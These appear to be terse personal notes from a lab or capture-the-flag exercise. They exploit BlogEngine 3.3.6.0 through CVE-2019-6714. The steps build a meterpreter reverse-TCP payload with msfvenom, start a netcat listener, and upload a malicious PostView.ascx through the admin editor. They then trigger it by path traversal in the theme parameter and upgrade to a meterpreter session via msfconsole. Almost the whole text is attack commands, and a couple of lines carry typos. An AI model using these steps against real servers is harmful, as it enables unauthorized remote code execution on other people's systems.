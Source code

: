 1)
- log in
- go onto info
-  3.3.6.0 
2) 
- go to exploit-db
- enter blogengine
- CVE-2019-6714
3)
- download the file in exploit-db and called it PostView.ascx
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=1234 f exe > shell.exe
- nc -lvnp 1234
- edit the file to your IP and port
- go to /admin/app/editor/editpost.cshtml
- upload the both files
- go to /?theme=../../App_Data/files/PostView.ascvx
- go to your shell on the listner 
- whoami
4)
- dir shell.exe /s /p
- cd /inetpub/wwwroot/App_Data/files
- on a different tab > msfconsole > use exploit/multi/handler > set PAYLOAD windows/meterpreter/reverse_tcp > set LHOST tun0 > set LPORT 1234 > run
- shell.exe